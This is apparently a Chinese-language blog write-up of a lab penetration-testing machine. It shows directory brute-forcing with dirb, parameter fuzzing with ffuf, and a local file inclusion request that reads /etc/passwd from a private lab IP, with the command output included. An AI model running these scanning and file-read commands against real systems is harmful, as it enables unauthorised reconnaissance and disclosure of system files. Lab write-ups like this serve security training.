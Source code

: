 ```yaml
---
{"dg-publish":true,"title":"Community_touch","tags":["blog"],"dg-path":"安全/靶机/Community_touch.md","permalink":"/安全/靶机/Community_touch/","dgPassFrontmatter":true}
---
```


# 主机发现
![Pasted image 20250202160145.png](/img/user/picture/Pasted%20image%2020250202160145.png)

![Pasted image 20250202160228.png](/img/user/picture/Pasted%20image%2020250202160228.png)





# web渗透

![Pasted image 20250202160508.png](/img/user/picture/Pasted%20image%2020250202160508.png)
没扫出来什么东西，看看特定文件类型试试


```shell
sudo dirb http://192.168.124.22/ -X .zip,.php,.html,.txt
```

![Pasted image 20250202160910.png](/img/user/picture/Pasted%20image%2020250202160910.png)

后面两个文件有些可疑，可以ffuf测一测

```shell
ffuf -u http://192.168.124.22/test.php\?FUZZ\=FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -c -v -fs 14
```

![Pasted image 20250202161431.png](/img/user/picture/Pasted%20image%2020250202161431.png)

![Pasted image 20250202162252.png](/img/user/picture/Pasted%20image%2020250202162252.png)

这个参数和`index.php`参数好像一样
![Pasted image 20250202163653.png](/img/user/picture/Pasted%20image%2020250202163653.png)

![Pasted image 20250202163707.png](/img/user/picture/Pasted%20image%2020250202163707.png)




竟然能文件读取
```shell
curl "http://192.168.124.22/test.php?do=/etc/passwd"
<h1>test</h1>
tryroot:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
```
